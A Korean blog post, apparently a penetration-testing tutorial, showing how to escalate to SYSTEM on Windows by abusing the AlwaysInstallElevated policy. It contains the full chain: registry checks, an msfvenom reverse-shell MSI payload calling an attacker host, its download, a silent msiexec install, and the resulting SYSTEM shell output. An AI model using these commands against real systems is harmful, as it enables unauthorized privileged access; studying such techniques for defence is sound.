 ```yaml
---
layout: post
title: windows 폴리시를 악용한 권한 상승
subtitle: AlwaysInstallElevated 폴리시를 악용해서 권한 상승하기
category: knowledge
thumbnail-img: /assets/img/avatar-icon.png
tags: [policy, windows, alwaysinstallelevated,msfvenom,msi]
author: Hong
---
```

윈도우의 권한 상승에 대한 포스팅.

여러 방법들 중 windows의 policy를 악용해 권한 상승하는 방법.

이번에 악용할 폴리시는 AlwaysInstallElevated라는 폴리시다.

이 폴리시를 유효화 해두면 msi 파일을 설치할 때 항상 관리자 권한으로 실행한다는 특징이 있다.
# AlwaysInstallElevated Policy
디폴트 설정은 무효화 되어 있기 때문에 먼저 유효화로 설정이 되어 있는지 확인해봐야 한다.

아래의 코드처럼 reg query로 HKCU와 HKLM의 레지스트리 키를 확인한다. 
```cmd
C:\Users\kuroda\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\Users\kuroda\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
0x1이라고 나오면 **유효화** 되어 있다는 뜻. 즉, 권한 상승에 이용할 수 있다.

# 리버스쉘을 만든다
이 폴리시는 msi 파일을 설치할 때 작동되기 때문에 msi 파일 형식으로 페이로드를 만들어 줄 필요가 있다.

칼리의 msfvenom을 이용해서 페이로드를 만들어준다.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<로컬IP> LPORT=<포트> -f msi -o shell.msi`

shell.msi라는 리버스쉘 페이로드를 만들었다. 타겟 윈도우 시스템에서 실행해야 하기 때문에 윈도우로 파일을 전송한다. 

kali에서 웹서버를 세운 후 윈도우에서 powershell로 다운로드했다.

`wget http://IP:PORT/shell.msi -outfile C:\Users\kuroda\Desktop\shell.msi`

# msi 파일 실행
이제 공격 서버에서 포트를 리스닝하고 만들어 둔 msi파일을 실행하면 리버스쉘이 열린다.

다음 명령어로 msi를 실행할 수 있다.

`msiexec /quiet /qn /i shell.msi`

그럼 관리자 권한으로 파일이 실행되기 때문에 공격자 서버에 관리자 권한의 쉘이 연결된다.

```cmd
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

윈도우 폴리시의 설정 이슈를 악용하여 권한 상승을 해보았다.

간단하게 할 수 있기 때문에 초기침투 후 폴리시를 확인해보면 좋을 것 같다.